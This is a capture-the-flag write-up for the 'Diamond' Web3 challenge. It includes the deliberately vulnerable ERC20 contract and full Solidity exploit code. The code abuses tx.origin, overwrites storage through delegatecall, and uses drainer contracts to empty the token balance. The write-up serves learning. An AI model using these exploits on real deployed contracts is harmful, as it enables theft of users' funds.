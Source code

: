 # Diamond - Web3

## Challenge

We get one contract of a ERC20 token, and want to get all of it out of the contract.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// The following contract is vulnerable on purpose: DO NOT COPY AND USE IT ON MAINNET!
contract Diamond is ERC20("Diamond", "DMD") {
    address private manager;
    address private extension;
    mapping(address => bool) private redeemers;
    uint256 private bonusRedeemsLeft = 5;
    uint256 private constant diamond = 10 ** 18; // 18 is the default decimals number

    constructor() {
        manager = msg.sender;
        _mint(address(this), 1000 * diamond);
    }

    function recovery(address newManager) public {
        require(tx.origin == manager);
        manager = newManager;
    }

    function getFirstRedeemerBonus() public {
        require(bonusRedeemsLeft > 0);
        require(redeemers[msg.sender] == false);
        bonusRedeemsLeft -= 1;
        redeemers[msg.sender] = true;
        bool success = this.transfer(msg.sender, 5 * diamond);
        require(success);
    }

    function setExtension(address newExtension) public {
        require(msg.sender == manager);
        extension = newExtension;
    }

    function callExtension(bytes memory _data) public {
        (bool success, ) = extension.delegatecall(_data);
        require(success);
    }
}
```

## Solution

The vulnerability is the use of tx origin. Through the faucet, which has the same address as the owner we can forward the message to the recovery() function and set ourself to the manager. I used this contract to do that, by deploying it and then calling the faucet with its address.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "Diamond.sol";

contract restter
{
    Diamond target;

    constructor(address _target) {
        target = Diamond(_target);
    }

    receive() payable external
    {
        target.recovery(0xYourAddress);
    }
}
```

Now that you're the manager you can call setExtension() to set it to your own extension. I deployed the following contract and then set the extension to it's address.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract extension is ERC20("Diamond", "DMD")
{
    address public manager;
    address public extension;
    mapping(address => bool) private redeemers;
    uint256 public bonusRedeemsLeft;
    uint256 private constant diamond = 10 ** 18;

    function attack() public 
    {
        bonusRedeemsLeft = 69420;
    }
}

```

Now you have to call that extension through the callExtension() function. You could've probably also done that directly from your address, but i wrote a small contract that does it for you.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "Diamond.sol";
import "extension.sol";

contract redeemsOverwriter
{
    Diamond target;

    constructor(address _target) {
        target = Diamond(_target);
        target.callExtension(abi.encodeWithSelector(extension.attack.selector));
    }
}

```

Now that the max amount of free redeems is super high you can start draining the contract. As it only checks if your address has already requested one free redeem, you can just create arbitrary contracts and send the money back to you. I created one small contract that requests a free redeem and then sends it back to you.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "./Diamond.sol";

contract drainer
{
    Diamond target;

    constructor(address _target) {
        target = Diamond(_target);
        target.getFirstRedeemerBonus();
        target.transfer(0x2C17A5f47FF94Be930E74483BDa8FE0D3616AA1E, 5);
    }
}
```

As i would have needed to call this script 200 times i wrote a big drainer that just does it 20x as fast.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "./drainer.sol";

contract bigDrainer
{
    Diamond target;

    constructor(address _target) {
        for (int i = 0; i <20; i++)
        {
            new drainer(_target);
        }
    }
}
```

Now i just created this contract 10x, and i had all the money.

--> Flag

